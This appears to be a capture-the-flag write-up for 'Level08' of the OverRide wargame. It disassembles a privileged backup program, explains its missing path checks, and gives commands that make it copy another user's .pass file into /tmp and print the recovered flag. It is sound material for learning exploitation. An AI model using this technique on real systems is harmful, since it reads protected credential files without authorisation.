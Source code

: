 # **Level08**

## **Binary Analysis**

The program requires exactly one command-line argument to read from it and create a backup of its content.

```nasm
NASMCollapse

; Check for correct number of arguments
0x0000000000400a22 <+50>:    cmpl   $0x2,-0x94(%rbp)  ; Compare argc with 2
0x0000000000400a29 <+57>:    je     0x400a4a <main+90>

; Important part: Opening input file
0x0000000000400ab3 <+195>:   mov    $0x400da9,%edx    ; "r" mode for fopen
0x0000000000400ab8 <+200>:   mov    -0xa0(%rbp),%rax  ; Get argv
0x0000000000400abf <+207>:   add    $0x8,%rax         ; argv[1]
0x0000000000400acc <+220>:   callq  0x4007c0 <fopen@plt>

; Creating backup path
0x0000000000400b09 <+281>:   mov    $0x400dab,%edx    ; "./backups/"
0x0000000000400b0e <+286>:   lea    -0x70(%rbp),%rax  ; Buffer for path
0x0000000000400b7d <+397>:   callq  0x400750 <strncat@plt>

; Opening backup file
0x0000000000400b98 <+424>:   callq  0x4007b0 <open@plt>

; Reading and writing loop
0x0000000000400bf5 <+517>:   callq  0x400760 <fgetc@plt>
0x0000000000400be6 <+502>:   callq  0x400700 <write@plt>

```

## **Vulnerability**

The program has several security issues:

1. Always prepends './backups/' to input path
2. Maintains exact directory structure of input file
3. No path sanitization or validation
4. Runs with elevated privileges that can read protected files
5. Creates backups with same content but different permissions

## **Exploit**

The exploit strategy is to create a backup of the protected file '/home/users/level09/.pass' in '/tmp' where we have write permissions. Create mirror structure in /tmp

**Step 1: Prepare Environment**

```bash
# Go to /tmp where we have write permissions
cd /tmp

# Create required directory structure
mkdir -p backups/home/users/level09/
```

**Step 2: Execute Exploit**

```bash
# Run program with target file
~/level08 /home/users/level09/.pass
```

**Step 3: Extract Data**

```bash
BASH

# Read the backup file
cat /tmp/backups/home/users/level09/.pass
```

The final result:

```bash
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09/
level08@OverRide:/tmp$ ls
backups
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat /tmp/backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

## **Flag**

```
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```